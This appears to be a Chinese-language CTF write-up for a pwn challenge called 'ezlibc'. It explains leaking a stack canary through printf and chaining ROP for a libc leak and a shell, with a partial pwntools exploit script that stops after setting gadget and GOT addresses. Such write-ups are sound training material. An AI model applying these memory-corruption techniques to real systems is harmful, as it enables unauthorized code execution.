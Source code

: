 CrazyCat-pwn
![[Pasted image 20250121140940.png]]
~~做了两题就去春秋杯了，结果春秋杯爆零，还不如把这个做完QAQ。~~
# ezlibc
![[Pasted image 20250121141259.png]]
一道简单的`ret2libc`的题目，开启`canary`，得先想办法泄漏`canary`。
![[Pasted image 20250121141418.png]]
![[Pasted image 20250121141711.png]]
虽然有`printf`函数，但不能直接泄漏地址，但`printf`会一直输出直到`\x00`，那么把`canary`前填充满`deadbeef`就能泄漏`canary`。
泄漏`canary`后在构造ROP泄漏地址，获取`libc`基址并重新调用`read`函数进行第三次溢出来获取`shell`。
exp:
```python
from pwn import *

# from LibcSearcher import LibcSearcher

from wstube import websocket

  

context.log_level = 'debug'

local = True

if local:

p = process('./ezlibc')

pwnlib.gdb.attach(p, 'b bug')

else:

p = websocket('wss://xlctf.huhstsec.top/api/proxy/019471c6-5bcb-772c-b85c-78d6ad4f3ed1')

  

elf = ELF('./ezlibc')

  

payload = b'a' * (0x29)

p.send(payload)

p.recvuntil(b'a' * 0x29)

canary = u64(b'\x00' + p.recv(7))

log.success('canary: ' + hex(canary))

  

rdi = 0x400843

puts_got = elf.got['puts']

puts_plt = elf.plt['puts']

bug = 0x4006e7

```